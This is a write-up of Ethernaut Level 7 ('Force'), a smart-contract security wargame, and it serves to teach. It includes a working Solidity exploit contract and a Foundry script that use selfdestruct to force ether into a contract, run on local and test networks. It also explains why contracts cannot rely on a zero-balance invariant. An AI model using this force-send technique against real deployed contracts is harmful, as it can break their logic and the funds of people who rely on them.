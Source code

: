 # Level 7 - Force ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/7" %}

### Level Setup

{% hint style="info" %}
Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

&#x20; Things that might help:

* Fallback methods
* Sometimes the best way to attack a contract is with another contract.
* See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Force.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
{% endcode %}

### Exploit

The exploit uses `selfdestruct` to force funds to be sent to the contract.

1. Create an attack contract that contains funds (`1 wei`) which is then force sent to the target contract using `selfdestruct`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-7

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-7

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level7.sol" %}

{% code title="src/Level7.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                        LEVEL 7 - FORCE                       │
// ================================================================
contract Selfdestruct {
    function attack(address _targetContractAddress) public payable {
        selfdestruct(payable(_targetContractAddress));
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level7.s.sol" %}

{% code title="script/Level7.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {Selfdestruct} from "../src/Level7.sol";

// ================================================================
// │                          LEVEL 7 - FORCE                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        Selfdestruct targetContract = new Selfdestruct();
        targetContract.attack{value: 1 wei}(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
{% endhint %}

### Notes

{% embed url="https://eips.ethereum.org/EIPS/eip-6780" %}
